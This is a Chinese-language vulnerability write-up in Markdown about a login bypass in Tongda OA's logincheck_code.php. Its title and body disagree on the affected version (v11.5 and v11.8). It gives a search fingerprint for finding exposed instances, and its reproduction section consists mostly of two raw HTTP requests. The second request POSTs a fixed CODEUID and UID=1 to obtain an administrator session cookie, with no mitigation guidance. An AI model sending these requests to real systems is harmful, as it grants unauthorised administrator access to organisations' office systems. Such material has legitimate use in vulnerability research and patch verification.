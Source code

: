 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

```
通达OA v11.8
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520153945050](images/202205201539126.png)

发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![image-20220520153955791](images/202205201539839.png)

再发送第二个恶意请求

```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![image-20220520154005687](images/202205201540724.png)

获取cookie后访问管理员页面 `/general/index.php`

![image-20220520154020588](images/202205201540662.png)
